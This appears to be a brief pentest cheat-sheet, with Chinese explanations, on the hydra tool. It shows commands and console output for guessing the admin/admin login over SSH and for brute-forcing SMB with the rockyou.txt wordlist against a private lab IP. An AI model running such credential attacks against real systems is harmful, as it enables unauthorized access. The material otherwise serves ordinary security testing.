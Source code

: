 # hydra

## example
以帳密admin/admin測試host 172.17.29.124的ssh連線
```console
# hydra -l admin -p admin ssh://172.17.29.124
[DATA] attacking service ssh on port 22
[22][ssh] host: 172.17.29.124   login: admin   password: admin
1 of 1 target successfully completed, 1 valid password found
```
以帳號admin，並使用密碼資料檔/usr/share/wordlists/rockyou.txt，對host 172.17.29.124的SMB進行測試
```console
# hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 4 smb://172.17.29.124
[DATA] attacking service smb on port 445
[STATUS] 5830.00 tries/min, 5830 tries in 00:01h, 14338569 to do in 40:60h, 1 active
[STATUS] 5884.00 tries/min, 17652 tries in 00:03h, 14326747 to do in 40:35h, 1 active
[445][smb] host: 172.17.29.124   login: admin   password: admin
1 of 1 target successfully completed, 1 valid password found
```
